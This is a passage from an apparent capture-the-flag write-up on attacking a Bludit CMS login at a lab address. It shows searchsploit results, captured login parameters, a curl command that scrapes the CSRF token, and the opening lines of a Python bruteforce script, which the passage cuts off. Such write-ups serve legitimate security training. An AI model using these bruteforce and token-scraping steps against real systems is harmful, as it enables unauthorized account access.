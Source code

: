 ![](img/2022-06-12-17-31-00.png)
This login is not vulnerable to SQLi, at least not to the basic tries I made. If we lookup exploits for the CMS `bludit`:
```bash
❯ searchsploit bludit
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Bludit - Directory Traversal Image File Upload ( | php/remote/47699.rb
Bludit 3.13.1 - 'username' Cross Site Scripting  | php/webapps/50529.txt
Bludit 3.9.12 - Directory Traversal              | php/webapps/48568.py
Bludit 3.9.2 - Auth Bruteforce Bypass            | php/webapps/48942.py
Bludit 3.9.2 - Authentication Bruteforce Bypass  | php/webapps/49037.rb
Bludit 3.9.2 - Authentication Bruteforce Mitigat | php/webapps/48746.rb
Bludit 3.9.2 - Directory Traversal               | multiple/webapps/48701.txt
bludit Pages Editor 3.0.0 - Arbitrary File Uploa | php/webapps/46060.txt
------------------------------------------------- ---------------------------------
```
We find directory traversal vulnerabilities, but these are only accessible when logged in. So we need to bypass the login.

##### Bypassing the login
From burpsuite, we can see that the params sent to the login processor are:
```bash
tokenCSRF=5ef5666e0dc0d92b1136f0b1076cc0fcad9a302b&username=admin&password=1234&save=
```
The tokenCSRF is generated dynamically, in this case, we can obtain with the following command:
```bash
❯ curl "http://10.10.10.191/admin/login" -s | grep CSRF | awk -F 'value=' '{print $NF}' | cut -d '"' -f 2
e06dc340695e88ba70a9fff7fd78bc911e9eed66
```
To perform the bruteforce, we created the following script:
```py
import requests
import sys
import argparse
from random import randint

# Parse program arguments
args = argparse.ArgumentParser()
```